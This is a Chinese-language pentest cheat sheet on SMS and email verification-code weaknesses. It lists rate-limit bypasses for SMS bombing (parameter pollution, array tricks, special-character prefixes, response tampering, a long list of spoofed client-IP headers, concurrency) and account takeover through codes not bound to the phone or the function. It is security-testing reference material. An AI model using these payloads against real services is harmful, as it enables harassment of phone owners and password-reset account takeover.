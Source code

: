 # 短信邮件漏洞

## 轰炸漏洞

### WAF绕过

#### 前端校验

限制了次数，通过修改返回包，来绕过校验

#### 接口防护

一个站的登录处可能做了防护，但是再找回密码处可能没有安全防护，或者在注册流程中没有安全防护，所以说多测试接口

#### 参数污染

参数大小写或者添加多个同名的参数或者将参数改为数组

举例

    phone=111*****123&phone=111*****456&phone=111*****789
    可能一次性3个手机号都接收到验证码
    也可以都写同一个手机号试试能不能接收到3次短信
    phone=111*****123,111*****456,111*****789
    {
    "phone": "111*****123,111*****456,111*****789"
    }
    phone=[111****1234,111****4567] 或 email=[test@aa.com,test@bb.com]
    加个逗号后面接上需要转发的手机号，因为开发可能使用数组就导致同时把验证码发给两个手机号
     
     
    将参数改为数组形式绕过短信轰炸限制
    phone[]=111*****123 或 email[]=test@aa.com

#### 特殊符号绕过

    %00
    %0a
    %a0
    \n
    空格
    \r
    86(短信轰炸的情况，手机号前加该符号)
    +
    -
    ,
    .
    ;
    #
    @
    0
    +86(短信轰炸的情况，手机号前加该符号)
    086(短信轰炸的情况，手机号前加该符号)
    0086(短信轰炸的情况，手机号前加该符号)
    26个英文字符
    ......
     
    邮箱大小写，比如@qq.com 改为@Qq.com @qq.COm等
    
#### 修改返回值

举例

    Request
    phone=111*****123 或 email=test@aa.com
     
    Response
    {"status":"0","message":"发送太过频繁"}
     
    修改返回值绕过
    拦截返回包，将Response中的status值修改为1
    {"status":"1","message":"发送太过频繁"}
    
#### 修改IP绕过

    X-Forwarded-For: 36.63.19.215
    X-Forwarded: 36.63.19.215
    Forwarded-For: 36.63.19.215
    Forwarded: 36.63.19.215
    X-Requested-With: 36.63.19.215
    X-Forwarded-Proto: 36.63.19.215
    X-Forwarded-Host: 36.63.19.215
    X-remote-IP: 36.63.19.215
    X-remote-addr: 36.63.19.215
    True-Client-IP: 36.63.19.215
    X-Client-IP: 36.63.19.215
    Client-IP: 36.63.19.215
    X-Real-IP: 36.63.19.215
    Ali-CDN-Real-IP: 36.63.19.215
    Cdn-Src-Ip: 36.63.19.215
    Cdn-Real-Ip: 36.63.19.215
    CF-Connecting-IP: 36.63.19.215
    X-Cluster-Client-IP: 36.63.19.215
    WL-Proxy-Client-IP: 36.63.19.215
    Proxy-Client-IP: 36.63.19.215
    Fastly-Client-Ip: 36.63.19.215
    True-Client-Ip: 36.63.19.215
    X-Originating-IP: 36.63.19.215
    X-Host: 36.63.19.215
    X-Custom-IP-Authorization: 36.63.19.215
    
#### 修改Cookie绕过

删除cookie 或者 重新获取一个新的cookie,换个浏览器重新获取就行了

#### 并发绕过

使用多线程来发送短信/邮箱
    
## 弱耦合漏洞

### 验证码未与请求宿主绑定

#### 场景一

手机号1点击获取验证码，得到验证码

手机号2输入验证码，成功通过验证

#### 场景二

用户绑定了手机号，正常来说是获取绑定手机号的短信，通过修改成其他手机号，达到重置密码

1.获取验证码，抓包，把手机号A改成手机号B，手机号B收到验证码填上去

2.点击提交进行密码重置，抓包，将手机号A修改为手机号B

发现，成功重置了手机号A的密码

### 验证码未与特定功能点绑定

找回密码处获取短信验证码
然后到登陆处使用刚刚获取的短信验证码，成功通过验证。

## 验证码回显漏洞

验证码回显在返回包里

## DDOS

刷新验证码，若发现在请求头中有对验证码参数可控的操作（比如长度，宽度），可以尝试是否能引发DDOS

## 验证码内容可控

请求包部分内容在短信上显示